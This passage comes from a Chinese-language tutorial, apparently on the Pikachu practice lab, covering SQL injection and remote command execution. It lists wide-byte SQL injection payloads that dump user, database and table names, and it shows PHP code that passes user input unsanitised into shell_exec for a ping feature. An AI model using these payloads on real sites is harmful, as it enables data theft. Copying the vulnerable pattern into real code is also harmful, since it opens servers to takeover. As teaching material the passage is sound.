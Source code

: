 ```php
    }else{
        $html.="<p class='notice'>您输入的username不存在,请重新输入!</p>";
    }
}
```

![](./src/sql7.png)
```bash
# 测试payload
lili%df' or 1=1 #
lili%df' union select user(),database() #
lili%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #
```

## RCE

**漏洞概述**
RCE(remote command/code execute)

RCE漏洞，可以让攻击者直接向后台服务器远程注入操作系统命令或者代码，从而控制后台系统。

远程系统命令执行
一般出现这种漏洞，是因为应用系统从设计上需要给用户提供指定的远程命令操作的接口
比如我们常见的路由器、防火墙、入侵检测等设备的web管理界面上
一般会给用户提供一个ping操作的web界面，用户从web界面输入目标IP，提交后，后台会对该IP地址进行一次ping测试，并返回测试结果。 而，如果，设计者在完成该功能时，没有做严格的安全控制，则可能会导致攻击者通过该接口提交“意想不到”的命令，从而让后台进行执行，从而控制整个后台服务器

远程代码执行
同样的道理,因为需求设计,后台有时候也会把用户的输入作为代码的一部分进行执行,也就造成了远程代码执行漏洞。 不管是使用了代码执行的函数,还是使用了不安全的反序列化等等。
因此，如果需要给前端用户提供操作类的API接口，一定需要对接口输入的内容进行严格的判断，比如实施严格的白名单策略会是一个比较好的方法。
你可以通过“RCE”对应的测试栏目，来进一步的了解该漏洞。

## exec之"ping"
**服务端核心代码**
```php
if(isset($_POST['submit']) && $_POST['ipaddress']!=null){
    $ip=$_POST['ipaddress'];
//     $check=explode('.', $ip);可以先拆分,然后校验数字以范围,第一位和第四位1-255,中间两位0-255
    if(stristr(php_uname('s'), 'windows')){
//         var_dump(php_uname('s'));
        $result.=shell_exec('ping '.$ip);//直接将变量拼接进来,没做处理
    }else {
        $result.=shell_exec('ping -c 4 '.$ip);
    }
}
```
